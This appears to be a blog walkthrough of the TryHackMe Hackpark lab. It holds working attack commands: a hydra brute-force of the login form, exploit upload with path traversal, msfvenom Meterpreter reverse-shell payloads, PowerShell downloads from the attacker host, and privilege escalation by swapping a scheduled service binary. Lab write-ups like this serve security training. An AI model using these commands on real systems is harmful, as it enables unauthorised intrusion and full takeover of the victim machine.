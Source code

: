 ```yaml
---
layout: post
permalink: /posts/thm/hackpark
title: "Hackpark"
---
```


Visit the web site

![website](/assets/images/thm/hackpark/website.png)

Go to the login form http://10.10.82.116/Account/login.aspx?ReturnURL=/admin/ fill random credentials and catch the request with Burp

![burp](/assets/images/thm/hackpark/burp.png)

URL = /Account/login.aspx <br />
Credentials: Coppy the whole string and replace “admin” with ^USER^ and sa with ^PASS^ <br />
Error = Login failed <br />

```
hydra 10.10.82.116 http-form-post "/Account/login.aspx:__VIEWSTATE=nqEgMQZDJA4ljVpOVjx4YPCakVF3d9nvoxg%2BUiLKw0H7p8yiCYZA4FKfhR%2FCcXy3aqwWPNHT1YS%2ByGJ5SofTN5qk8awWYo6EGr6ojt%2FsxQoJEaadulKPmU3MFDceLDzAiK27vjp8GXtc0ARml9xvG9AxEmTvg%2Bv0b6Jm8sHjwUpPqMjGSvawaV%2FE%2FGdLrsFyzlTVwQtoZJ19lPqU1XMAkjIBepprEtPWINwp62TsJyAiJrNiyQKD8jjUTckHgWA%2F8A3iKqRKLpucOURl98yflXTy4ZNX%2Bm9nd37efgiC1V5ZvmOdSiTecrNlobL3KJTEJEnRgN8ffjmC1zT9BGmOr%2FbjsHGxHakJmjkunMp9kLHDO3e1&__EVENTVALIDATION=FBbJgg%2Fj3CURj021ldkMQH4rERL%2BUHa4w0WMXZ8uNg3UXN0crSNW593k%2BrctSyHsw6UzOyTppeuzC3QU6%2FZB64bT%2FNovRwxM743JTc5hO2Iru%2BoZjdEYpqN8%2BHOrECQZrEmC9VcLtEblSn86sNLvjl0kipFtxT5DM%2FdE%2BhO48aRsMr9C&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -l admin -P Hacking/Lists/rockyou.txt -t 10 -w 30
```

![hydra](/assets/images/thm/hackpark/hydra.png)

We have successfully logged in

![admin](/assets/images/thm/hackpark/admin.png)

On the left side there is menu, navigate to “About” to find additional information about the service.

![version](/assets/images/thm/hackpark/version.png)

Search in exploit db to find exploit

![exploit](/assets/images/thm/hackpark/exploit.png)

Download the exploit and change to your ip <br />

Go to /admin/app/editor/editpost.cshtml and open the File Manager

![editpost](/assets/images/thm/hackpark/editpost.png)

Upload the script

![upload](/assets/images/thm/hackpark/upload.png)

Start listener <br />

navigate to /?theme=../../App_Data/files

![website2](/assets/images/thm/hackpark/website2.png)

![shell](/assets/images/thm/hackpark/shell.png)

Our netcat session is unstable, so let's generate another reverse shell using msfvenom.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.5.60 LPORT=4444 -f exe -o shells.exe
```

Start listener on metasploit

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 
set LPORT 
run
```

Start Python server and download the exe file on the target machine.

![python](/assets/images/thm/hackpark/python.png)

```
cd C:\Windows\Temp
powershell -c wget "http://10.9.5.60:9000/shells.exe" -outfile "shells.exe"
```

![exe](/assets/images/thm/hackpark/exe.png)

```
shells.exe
```

Now we have a mterpreter shell

![meterpreter](/assets/images/thm/hackpark/meterpreter.png)

We are going to use winPEAS to escalate privileges

![winpeas](/assets/images/thm/hackpark/winpeas.png)

in meterpreter session execute 

```
upload winPEASx64.exe 
shell
winPEASx64.exe serviceinfor
````

What is the name of the abnormal service running?

![service](/assets/images/thm/hackpark/service.png)

![message](/assets/images/thm/hackpark/message.png)

The WindowsScheduler service runs Message.exe periodically with root privilege. So we can obtain root by replacing Message.exe with an executable of our choice to spawn a reverse shell. <br />

Now we are going to generate our own Message.exe executable with msfvenom, making sure a different lport is used.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.5.60 LPORT=1234 -f exe -o Message.exe
```

Start listener on metasploit

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip 
set LPORT listening-port 
run
```

In the previous meterpreter, upload our Message.exe into the correct dir on the target machine.

```
cd “C:\Program Files (x86)\SystemScheduler>”
```

NOTICE! File could be being use at this moment, so try again until it's copied.

```
powershell -c wget "http://10.9.5.60:9000/Message.exe" -outfile "Message.exe"
```

![flags](/assets/images/thm/hackpark/flags.png)

```
shell 
systeminfo
```

![sysinfo](/assets/images/thm/hackpark/sysinfo.png)